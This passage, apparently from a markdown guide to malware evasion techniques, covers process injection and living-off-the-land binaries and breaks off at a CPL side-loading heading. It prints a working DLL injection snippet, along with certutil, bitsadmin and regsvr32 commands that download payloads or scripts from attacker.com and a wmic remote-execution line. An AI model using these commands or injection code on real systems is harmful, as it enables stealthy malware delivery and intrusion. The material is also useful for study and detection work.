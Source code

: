 ## Advanced Evasion Techniques

### 7. Process Injection

**Definition:** Technique of injecting malicious code into legitimate running processes to evade detection and inherit process privileges.

#### Injection Types:
- **DLL Injection:** Inject malicious DLL into target process
- **Process Hollowing:** Replace legitimate process memory with malicious code
- **Atom Bombing:** Use Windows atom tables for code injection
- **Manual DLL Loading:** Manually load DLLs without using LoadLibrary

#### Implementation Methods:
```c
// Classic DLL injection example (educational)
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcessId);
LPVOID pDllPath = VirtualAllocEx(hProcess, NULL, strlen(dllPath), MEM_COMMIT, PAGE_READWRITE);
WriteProcessMemory(hProcess, pDllPath, (LPVOID)dllPath, strlen(dllPath), NULL);

HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0,
    (LPTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryA"),
    pDllPath, 0, NULL);
```

### 8. Using LoLBins (Living off the Land Binaries)

**Definition:** Technique using legitimate system binaries and tools for malicious purposes to evade detection.

#### Popular LoLBins:
- **PowerShell:** Script execution and download capabilities
- **Certutil:** File download and encoding/decoding
- **Bitsadmin:** Background file transfers
- **Wmic:** System information and remote execution
- **Regsvr32:** DLL registration and script execution

#### Examples:
```cmd
REM File download using legitimate tools
certutil -urlcache -split -f http://attacker.com/payload.exe payload.exe
bitsadmin /transfer myDownloadJob /download /priority normal http://attacker.com/file.exe C:\temp\file.exe

REM Remote execution
wmic /node:"target" process call create "malicious_command"

REM Script execution
regsvr32 /s /n /u /i:http://attacker.com/script.sct scrobj.dll
```

### 9. CPL (Control Panel) Side-Loading
